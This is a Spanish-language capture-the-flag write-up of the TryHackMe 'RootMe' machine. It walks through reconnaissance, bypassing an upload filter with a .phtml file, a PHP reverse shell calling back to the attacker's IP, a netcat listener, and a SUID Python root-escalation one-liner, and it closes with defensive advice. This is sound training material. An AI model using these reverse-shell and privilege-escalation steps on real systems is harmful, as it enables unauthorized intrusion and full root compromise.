






# RootMe — TryHackMe (Fácil)

**Plataforma:** TryHackMe · **Categoría:** Reconocimiento web / File Upload Bypass / Reverse Shell / PrivEsc SUID · **Herramientas:** Nmap, Gobuster, netcat, navegador web

---

## Resumen

Máquina Linux con un servidor web Apache que expone un panel de subida de archivos con un filtro de extensiones basado en lista negra. El filtro bloquea `.php` pero acepta `.phtml`, que Apache ejecuta igualmente como PHP. Subiendo una reverse shell con extensión `.phtml` se obtiene acceso inicial como `www-data`. La escalada de privilegios se logra mediante Python 2.7 con el bit SUID activado, que permite obtener una shell de root directa.

---

## Habilidades demostradas

- Escaneo de puertos con Nmap: uso de `-Pn` para hosts que bloquean ICMP
- Detección de tecnología backend desde headers HTTP (cookie `PHPSESSID` → PHP)
- Enumeración de directorios web con Gobuster
- Bypass de filtro de extensiones de archivos (lista negra) con extensión alternativa `.phtml`
- Configuración y captura de reverse shell con netcat
- Búsqueda de binarios con SUID activado (`find -perm -4000`)
- Escalada de privilegios mediante Python con SUID (GTFOBins)

---

## 1. Reconocimiento

El primer escaneo con Nmap falló — la máquina bloquea pings (ICMP) y Nmap reportó el host como caído:

```bash
nmap -sC -sV <IP>
# "Host seems down. If it is really up, but blocking our ping probes, try -Pn"
```

Con `-Pn` se fuerza el escaneo saltándose la verificación de host:

```bash
nmap -sC -sV -Pn <IP>
```





| Puerto | Servicio | Versión |
|--------|----------|---------|
| 22     | SSH      | OpenSSH 8.2p1 Ubuntu |
| 80     | HTTP     | Apache 2.4.41 (Ubuntu) |

Los scripts de Nmap (`-sC`) revelaron la cookie `PHPSESSID` en las respuestas del servidor web — confirmación de que el backend usa PHP. Esto es relevante para elegir el tipo de payload.

---

## 2. Enumeración web

```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt
```



| Ruta | Descripción |
|------|-------------|
| `/panel/` | Formulario de subida de archivos |
| `/uploads/` | Carpeta donde se almacenan los archivos subidos — directory listing habilitado |

El directory listing en `/uploads/` permite ver y acceder directamente a cualquier archivo subido por su URL. En un servidor de producción esto debería estar deshabilitado.

---

## 3. Explotación / Acceso inicial

### Reverse shell

Una reverse shell invierte la dirección de la conexión: en vez de que el atacante se conecte a la víctima (como en SSH), es la máquina víctima la que se conecta al atacante. Útil cuando el servidor no acepta conexiones entrantes pero sí puede hacer conexiones salientes.

Se usó el script de reverse shell en PHP de PentestMonkey, disponible en Parrot OS:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

Dos variables editadas antes de subir:

```php
$ip = '<IP_tun0>';   // IP de la interfaz VPN (ip addr show tun0)
$port = 4444;
```

### Bypass del filtro de extensiones

El panel rechazó `shell.php` con el mensaje "PHP não é permitido!":



PHP tiene múltiples extensiones alternativas que Apache ejecuta igualmente si el servidor está configurado para ello. Se probaron extensiones hasta encontrar una que pasara el filtro y se ejecutara:

| Extensión | Pasa el filtro | Se ejecuta como PHP |
|-----------|---------------|---------------------|
| `.php`    | ❌             | —                   |
| `.php3`   | ✅             | ❌ (muestra código fuente) |
| `.phtml`  | ✅             | ✅                   |

El filtro solo bloquea `.php` literal — no cubre las variantes que Apache también ejecuta como PHP.

### Ejecución

Listener en la máquina atacante:

```bash
nc -lvnp 4444
```

Subida de `shell.phtml` al panel, luego acceso a `http://<IP>/uploads/shell.phtml` desde el navegador. El navegador queda cargando — señal de que la conexión está activa.



---

## 4. Escalada de privilegios

Búsqueda de binarios con el bit SUID activado:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Entre los resultados, `/usr/bin/python2.7` es el único binario inusual — Python con SUID no pertenece a ninguna instalación estándar de Ubuntu. Fue activado intencionalmente como vector de escalada.

Según GTFOBins, Python con SUID permite reemplazar el proceso actual por una bash que hereda los privilegios del SUID (root). El flag `-p` es necesario para que bash no descarte automáticamente los privilegios elevados:

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

| Parte | Significado |
|-------|-------------|
| `/usr/bin/python2.7` | Ruta completa — necesaria para que el SUID tenga efecto |
| `os.execl("/bin/bash", "bash", "-p")` | Reemplaza el proceso Python por una shell bash |
| `"-p"` | Preserva los privilegios efectivos heredados del SUID; sin este flag, bash los descarta por seguridad |



---

## Lo que probé y no funcionó

- **`.php3`**: pasó el filtro pero Apache lo sirvió como texto plano en vez de ejecutarlo. El servidor no tenía configurado el handler para esa extensión.
- **Subida directa sin renombrar**: el primer intento con `shell.php` fue rechazado por el filtro. La solución fue renombrar a `.phtml` antes de subir — no hay forma de evadir el filtro del lado del cliente sin manipular el archivo.

---

## Impacto

Un atacante externo sin credenciales puede obtener shell de root en tres pasos: enumerar el directorio web con Gobuster, subir una reverse shell eludiendo el filtro de extensiones, y abusar del SUID de Python. No se requiere ninguna CVE ni código personalizado — solo herramientas estándar y un binario mal configurado.

---

## Perspectiva defensiva

- **Usar lista blanca de extensiones** en vez de lista negra: permitir solo `.jpg`, `.png`, etc., y rechazar todo lo demás. Una lista negra siempre puede tener vacios.
- **Renombrar los archivos subidos** con nombres aleatorios y sin extensión ejecutable, independientemente de lo que el usuario suba.
- **Almacenar los archivos subidos fuera del directorio web**: si los archivos no son accesibles por URL, ejecutarlos desde el navegador es imposible.
- **No asignar SUID a intérpretes de lenguajes** (Python, Perl, Ruby): cualquiera de ellos con SUID es escalada directa a root. Verificar regularmente binarios con SUID inusuales con `find / -perm -4000 -type f`.
- **Bloquear conexiones salientes no autorizadas** desde el servidor web: un firewall que limite las conexiones salientes impediría que la reverse shell se conectara al atacante incluso si el archivo fuera ejecutado.

---

## Lecciones aprendidas

- Si Nmap reporta "Host seems down", puede ser que el host esté activo pero bloqueando ICMP. `-Pn` fuerza el escaneo sin verificación de host — útil siempre que haya sospecha de que el host está activo.
- La cookie `PHPSESSID` en los headers HTTP es una confirmación directa de que el backend usa PHP, sin necesidad de fuzzing adicional.
- Los filtros de extensiones basados en lista negra son eludibles: bloquear `.php` no es suficiente si Apache tiene configurados handlers para `.phtml`, `.php3`, `.php5` u otras variantes.
- El flag `-p` en bash es crítico al escalar con SUID: sin él, bash descarta los privilegios elevados heredados por diseño de seguridad.
- Python con SUID es siempre sospechoso. `os.execl("/bin/bash", "bash", "-p")` da shell de root directa — GTFOBins cubre decenas de binarios con el mismo patrón.

---

## Referencias

- [TryHackMe — RootMe](https://tryhackme.com/room/rrootme)
- [GTFOBins — Python SUID](https://gtfobins.github.io/gtfobins/python/)
- [PentestMonkey — PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)